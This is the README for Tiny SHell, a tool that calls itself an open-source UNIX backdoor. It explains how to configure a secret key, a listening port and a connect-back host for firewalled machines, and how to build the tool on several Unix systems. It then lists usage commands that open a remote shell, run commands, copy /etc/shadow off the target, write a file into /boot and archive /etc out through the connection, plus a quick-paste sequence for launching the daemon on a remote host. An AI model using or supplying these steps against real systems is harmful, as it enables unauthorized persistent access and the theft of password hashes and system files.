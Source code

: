 

                 Tiny SHell - An open-source UNIX backdoor


    * Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.

    * Qucik Paste 
        Comment out callback host and callback delay for server to bind 
        ./tshd <-- launch on remote host 
        ./tsh 127.0.0.1 'ls -lartF /' <-- connect in 
        Uncomment callback host and callback delay to get cb 
        ./tshd <-- launch on remote host 
        ./tsh cb id <-- run single cmd
        ./tsh cb /bin/sh <-- get shell 
